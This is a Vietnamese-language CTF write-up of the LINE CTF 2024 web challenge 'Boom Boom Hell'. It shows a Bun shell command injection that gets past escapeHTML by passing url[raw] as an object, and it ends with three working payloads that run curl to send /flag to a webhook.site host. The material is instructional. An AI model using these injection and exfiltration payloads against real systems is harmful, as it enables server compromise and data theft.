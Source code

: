 ```yaml
---
title: "LINE CTF 2024 - web writeup"
excerpt: "March 23, 2024, 09:00 AM ~ March 24, 2024, 09:00 AM (UTC+9) 💻"
header:
show_date: true
header:
  teaser: /assets/images/images-ctf/2024-03-20-LineCTF-2024/teaser.png
  teaser_home_page: true
  icon: /assets/images/images-icon/ctf.png
  overlay_image: /assets/images/images-ctf/2024-03-20-LineCTF-2024/background.png
categories:
  - CTF
tags:
  - CTF
  - Vietnamese
---
```


# Boom Boom Hell* - 176 point/28 solved
## Description
```
Shall we dance? 🐻🐥🐰🎶
URL: http://34.146.180.210:3000/chall?url=https://www.lycorp.co.jp
```

source code [here](https://github.com/TaiPhung217/CTF_writeup/blob/main/2024/linectf2024/boomboomhell_898a5dc8c4b2ea241905c612d355ce58.zip)

## Solution

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-ctf/2024-03-20-LineCTF-2024/image1.png)

Source code index.js không quá dài, chương trình chứa một api `/chall` với param `url`. 

Ở dòng code thứ 23 và 28 rất dễ thấycó lỗi command injection, mình sẽ thực hiện khai thác theo flow như sau:

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-ctf/2024-03-20-LineCTF-2024/image2.png)

Tại dòng 28. ta có thể thấy code thực ghi một số dữ liệu dạng datetime và url truyền từ input vào file `.log` . Làm mình nhớ tới một dạng ghi payload vào file rồi gọi tới file với bash để thực thi. Nhưng không phải. 

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-ctf/2024-03-20-LineCTF-2024/image3.png)

Thực tế, tham số `url` được xử lý trước bằng hàm `escapeHTML()` của `bun`. Ban đầu mình nghĩ khó khăn ở đây là cần phải vượt qua hàm này sao cho độ dài chuỗi gốc và sau khi escape không khác nhau bao gồm ký tự đặc biệt để thực thi mã..

```js
if (params.url.length < escapeHTML(params.url).length) {    // dislike suspicious chars
    return new Response("sorry, but the given URL is too complex for me");
}
```

`Bun.escapeHTML()` utility được sử dụng để escape các ký tự HTML trong các chuỗi. Các kiểu không phải là chuỗi sẽ được chuyển thành chuỗi trước khi thực hiện escape. Việc thay thế được thực hiện gồm: 
```js
" becomes "&quot;"
& becomes "&amp;"
' becomes "&#x27;"
< becomes "&lt;"
> becomes "&gt;"
```

ex:
```js
Bun.escapeHTML("<script>alert('Hello World!')</script>");
// &lt;script&gt;alert(&#x27;Hello World!&#x27;)&lt;&#x2F;script&gt;
```
Tham khảo [escape-html](https://bun.sh/guides/util/escape-html) hoặc đây [https://github.com/oven-sh/bun/blob/71113182c2a5228b447b836ad4b7bf705ad7e06d/test/js/bun/util/escapeHTML.test.js#L23](https://github.com/oven-sh/bun/blob/71113182c2a5228b447b836ad4b7bf705ad7e06d/test/js/bun/util/escapeHTML.test.js#L23)

Mình nghĩ việc thêm escapeHTML ở đây như một cú lừa vậy. Bởi vì mình nghĩ khá dễ để bypass được filter này mà không cần tới các ký tự đặc biệt thuộc blacklist của `escapeHTML()`.

Trước tiên, xét tới phần sink. Phân tích cú pháp `${}` trong bun. Nói tới logic escape của Bun shell dưới dạng một function.

```js
import { $ } from "bun";

console.log($.escape('$(foo) `bar` "baz"'));
// => \$(foo) \`bar\` \"baz\"
```

Nếu không muốn chuỗi output bị escape, chỉ cần bọc nó trong một object `{ raw: 'str' }`
```js
import { $ } from "bun";

await $`echo ${{ raw: '$(foo) `bar` "baz"' }}`;
// => bun: command not found: foo
// => bun: command not found: bar
// => baz
```

Tham khảo [https://bun.sh/docs/runtime/shell#escape-escape-strings](https://bun.sh/docs/runtime/shell#escape-escape-strings)

Từ ví dụ trên mình có được 2 ý tưởng để chèn payload: `$(cat /flag)` hoặc ``cat /flag``.

Lúc này, việc thêm một object từ `param.url` thì data này sau khi được parse bởi `${}` sẽ trả về định dạng raw ban đầu. Kết hợp với lệnh `node/curl` trước đó để tạo thành một command injection payload. 

```js
{
    "raw": $payload
}
```

Với data ở dạng raw như này, mình nghĩ có thể thêm cách thứ 3 chỉ cần thêm phân tách lệnh để bypass thôi như `;id;`, `|id|`

Nhưng với payload như này thì mình nghĩ chỉ khai thác cmi được ở dòng code thứ 28 thôi. Vì kết quả trả về khi truyền object của cú pháp `${lyURL}` sẽ gọi tới `toString` của nó chính là `https://www.lycorp.co.jp/[object%20Object]` không bao gồm payload nên không thực thi được. 
```sh
curl -sL https://www.lycorp.co.jp/[object%20Object]
```

Object `URL`: 
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-ctf/2024-03-20-LineCTF-2024/image4.png)

`toString` của `URL` sẽ trả về `href` xem trong /blob/mastere/url.d.ts#L503
```text
* Getting the value of the `href` property is equivalent to calling {@link toString}.
```

Quay trở lại với payload đang nói trước đó 

Test với payload: `/chall?url[raw]=;id;`

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-ctf/2024-03-20-LineCTF-2024/image5.png)

test local xong. Tiếp theo chỉ việc gọi command `curl` tới webhook để lấy flag. 

Như mình đã giải thích ở trên, cuối cùng có 3 cách để làm bài này:
```bash
/chall?url[raw]=`curl+https://webhook.site/xxxxx+-d+@/flag`
```

hoặc 

```bash
/chall?url[raw]=$(curl+https://webhook.site/xxxx+-d+@/flag)
```

hoặc 
```bash
/chall?url[raw]=;curl+https://webhook.site/xxxxx+-d+@/flag;
```

Ai đó đã report bug về `escapeHTML()` ngay sau khi CTF này kết thúc. [https://github.com/oven-sh/bun/pull/9619](https://github.com/oven-sh/bun/pull/9619)